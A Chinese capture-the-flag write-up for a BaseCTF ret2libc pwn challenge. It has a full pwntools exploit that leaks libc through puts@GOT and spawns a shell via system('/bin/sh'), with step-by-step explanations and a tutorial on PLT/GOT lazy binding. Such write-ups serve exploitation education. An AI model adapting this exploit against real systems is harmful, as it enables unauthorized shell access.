



# Basectf pwn方向“她与你皆失”

`ret2libc`,新手上路的第一块绊脚石，这道题是很标准的两步走，先泄露libc再getshell

```python
from pwn import *
context(os = 'linux',arch = 'amd64',log_level = 'debug')
libc = ELF('libc.so.6')
p = process('./pwn')
elf = ELF('./pwn')

main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401176
ret = 0x40101a

p.recv()

payload = b'a'*(0xa+8)
payload+=p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
p.sendline(payload)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr-libc.sym['puts']
print(hex(libc_base))

system = libc_base+libc.sym['system']
binsh = libc_base+next(libc.search(b'/bin/sh'))

payload2 = b'a'*(0xa+8)
payload2+=p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)

p.sendline(payload2)
p.interactive()
```

## 加载二进制文件和动态链接库

`libc = ELF('libc.so.6')`这一段是用来加载动态链接库libc.so.6，用于后续获取libc函数的地址

`elf = ELF('./pwn')`用来加载本地的二进制文件，用于获取程序中的地址信息

## 获取地址

```python
main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401176
ret = 0x40101a
```

这里获取了puts函数在PLT(程序链接表)和GOT(全局偏移表)的地址，后面泄露用

## 构造payload1

```python
payload = b'a'*(0xa+8)
payload+=p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
p.sendline(payload)
```

首先溢出覆盖溢出点之前的内存区域，直到返回地址的位置。

接着`pop_rdi`+`puts_GOT`，将puts函数在GOT表中的地址弹入rdi。

通过`puts_plt`调用puts函数，打印出rdi寄存器中此时的值，也就是puts函数在GOT表中的实际位置

泄露完成后，返回main函数，等待下一次payload

## 获取puts的实际地址，并计算libc基址

```python
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_addr))
libc_base = puts_addr-libc.sym['puts']
print(hex(libc_base))
```

- `u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))`
  - `recvuntil('\x7f)`为接收输出直到遇到第一个`\x7f`字节，
  - `[-6:]`为取最后6个字节
  - `ljust(8,b'\x00')`为将字节串填充到8个字节
  - `u64`将字节串转换为64位无符号整数
- `print(hex(puts_addr))`
  - 将`puts`函数的真正地址打印出来（其实不加这一步也没事）
- `libc_base = puts_addr-libc.sym['puts']`
  - 这里是计算libc库的基地址，因为libc.sym['puts']是`puts`函数在libc中的偏移地址，所以这样可以得到基地址，为后面构造payload2准备

## 构造payload2，getshell

```python
system = libc_base+libc.sym['system']
binsh = libc_base+next(libc.search(b'/bin/sh'))
payload2 = b'a'*(0xa+8)
payload2+=p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)
p.sendline(payload2)
p.interactive()
```

- `binsh = libc_base+next(libc.search(b'/bin/sh'))`
  - `libc.search(b'/bin/sh')`为一个生成器，用于在libc库中搜索包含/bin/sh字符串的所有地址，而`b'/bin/sh`意为是一个字节串
  - `next(libc.search(b'/bin/sh'))`即调用next函数获取生成器的下一个值，简单来说，在这里就是从生成器里获取第一个匹配的地址

## ret2libc原理介绍

我的理解也不是很深刻，如有错误请多多包涵

参考博客：[PLT&GOT](https://www.yuque.com/hxfqg9/bin/ug9gx5#)

### PLT表和GOT表

GOT(Globle offset table)全局偏移量表，位于数据段，是一个每个条目事8字节地址的数组，用来存储外部函数在内存的确切地址

PLT(Procedure linkage table)过程连接表，位于代码段，是一个每个条目事16字节内容的数组，使得代码能够方便的访问共享的函数或者变量

可以一起做一个实验,编写如下源码

```c
#include <stdio.h>
void print_banner()
{
        printf("Welcome to World of PLT and GOT\n");
}
int main(void)
{
        print_banner();
        return 0;
}
```

依次执行编译命令：

`gcc -Wall -g -o test.o -c test.c -m32`

`gcc -o test test.o -m32`

这时我们的测试文件夹中有了test.c、test.o和可执行文件test

通过`objdump -d test.o`查看反汇编



可以看到在`print_banner`中存在`7:   e8 fc ff ff ff          call   8 <print_banner+0x8>`这样一行

printf()和函数实在glic动态库里面的，只有当程序运行起来的时候才可以确定地址（延迟绑定技术），所以此时的printf（）函数先用fc ff ff ff 也就是有符号的-4来代替

运行时进行重定位时无法修改代码段的，只能将printf重定位到数据段，但是已经编译好的程序，调用printf的时候怎么才能找到这个地址呢？

链接器会额外生成一小段代码，通过这段代码来获取printf()的地址，进行链接的时候只需要对printf_stub()重定位就可以了

```Plain Text
.text
...

// 调用printf的call指令
call printf_stub
...
printf_stub:
    mov rax, [printf函数的储存地址] // 获取printf重定位之后的地址
    jmp rax // 跳过去执行printf函数

.data
...
printf函数的储存地址,这里储存printf函数重定位后的地址
```

总之，动态链接每个函数需要两个东西：

- 用来存放外部函数地址的数据段
- 用来获取数据段记录的外部函数地址的代码

这里就出现了我们提及的两个表GOT（存放外部函数地址）和PLT（存放额外代码）



可执行文件里面保存的时PLT表对应的地址，对那个PLT地址指向的是GOT的地址，GOT表指向的就是glibc中的地址

那么我们可以发现，在这里面想要通过plt表获取函数的地址，首先要保证got表已经获取了正确的地址，但是在一开始就进行所有函数的重定位是比较麻烦的，为此，linux引入了延迟绑定机制

### 延迟绑定

只有动态库函数在被调用时，才会进行地址解析和重定位功能工作，为此可以使用类似这样的代码来实现：

```c
//一开始没有重定位的时候将 printf@got 填成 lookup_printf 的地址
void printf@plt()
{
address_good:
    jmp *printf@got   
lookup_printf:
    //调用重定位函数查找 printf 地址，并写到 printf@got
    goto address_good;//再返回去执行address_good
}
```

这段代码一开始的时候，printf@got是lookup_printf函数的地址，这个函数的作用是找寻printf()的地址，然后写入printf@got，lookup_printf执行完成后会返回到address_good，这样再jmp的话就可以直接跳到printf来执行了

也就是说，如果不知道printf地址，就去找找;如果知道，那就直接jmp去printf

接下来看一下怎么找的

`objdump -d test > test.asm`,在test.asm中可以看到plt表中的三项指令



可以看到后面两个表项中，plt表的第一条都是直接跳转到对应的got表项，而got表项的内容可以gdb查看


*发现不太清楚地址怎么计算出来的话可以先了解一下信息存储*.

之前说过，在还没有执行函数之前，printf@got的内容是lookup_printf函数的地址，这就是要去找的printf函数的地址了

接下来的是

```c
push   $0x0 //将数据压到栈上，作为要执行的函数的参数
jmp    1030 <_init+0x30>    //去到了第一个表项里
```

继续

```c
00001030 <__libc_start_main@plt-0x10>:
push   0x4(%ebx)    //将数据压到栈上，作为后面函数的参数
jmp    *0x8(%ebx)   //跳转到函数
add    %al,(%eax)
```

再查找下看看jmp去哪了


对应的函数是`_dl_runtime_resolve`

### 小结

在想要调用的函数没有被调用过，想要调用他的时候，是按照这个过程来调用的

xxx@plt -> xxx@got -> xxx@plt -> 公共@plt -> _dl_runtime_resolve


到这里我们解决最后两个问题;

- dl_runtime_resolve 是怎么知道要查找 printf 函数的
  - 在xxx@plt中，我们在jmp之前push了一个参数，每个xxx@plt的push的操作数都不一样，那个参数就相当于函数的id，告诉了_dl_runtime_resolve要去找哪一个函数的地址
  - 在elf文件中.rel.plt保存了重定位表的信息，使用`readelf -r test`命令可以查看test可执行文件中的重定位信息
- _dl_runtime_resolve找到printf函数地址之后，它怎么知道回填到哪个GOT表项
  - 看 .rel.plt 的位置就对应着 xxx@plt 里 jmp 的地址
  
    在 i386 架构下，除了每个函数占用一个 GOT 表项外，GOT 表项还保留了３个公共表项，也即 got 的前３项，分别保存：
    got [0]: 本 ELF 动态段 （.dynamic 段）的装载地址 
    got [1]：本 ELF 的 link_map 数据结构描述符地址 
    got [2]：_dl_runtime_resolve 函数的地址
    动态链接器在加载完 ELF 之后，都会将这３地址写到 GOT 表的前３项